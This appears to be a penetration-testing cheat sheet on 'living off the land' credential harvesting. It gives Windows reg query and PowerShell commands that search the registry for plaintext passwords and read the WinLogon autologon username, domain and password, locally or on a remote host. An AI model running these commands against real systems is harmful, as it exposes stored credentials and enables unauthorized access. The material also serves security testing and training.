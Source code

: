 # Living off the Land

## 01 - Command Prompt

Using a registry to query the plain text password in the key.

### 1.1 - Search for patterns

```
C:\> reg query hklm /f "password" /t REG_SZ /s /k

C:\> reg query hkcu /f "password" /t REG_SZ /s /k
```

### 1.2 - Query WinLogon registry entry

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

```
C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" [/reg:<32 | 64>] 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

Enumerate one by one.

```
C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultDomainName [/reg:<32 | 64>]

C:\> reg query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword [/reg:<32 | 64>]
```

## 02 - Powershell

### 2.1 - Search for patterns

```
PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"
```

### 2.2 - Query WinLogon registry entry

```
PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultUserName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultDomainName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultPassword
```

---
## References

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)